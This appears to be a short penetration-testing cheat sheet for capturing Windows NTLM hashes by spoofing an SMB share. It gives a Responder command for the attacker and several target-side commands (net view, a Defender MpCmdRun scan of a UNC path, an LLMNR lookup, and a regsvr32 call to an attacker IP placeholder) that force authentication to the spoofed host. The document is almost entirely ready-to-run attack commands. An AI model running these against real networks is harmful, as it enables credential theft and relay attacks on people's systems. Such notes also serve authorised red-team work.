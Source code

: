 # 01 - Capture Hashes via Spoof SMB Shares

Search Tag(s): #mitm #responder #smb #relay #ntlm #scenarios

## 1.1 - Attacker

`$ sudo responder -I <interface> -rdwv`

## 1.2 - Target

```
C:\> net view \\snare

C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt

PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null

C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll
```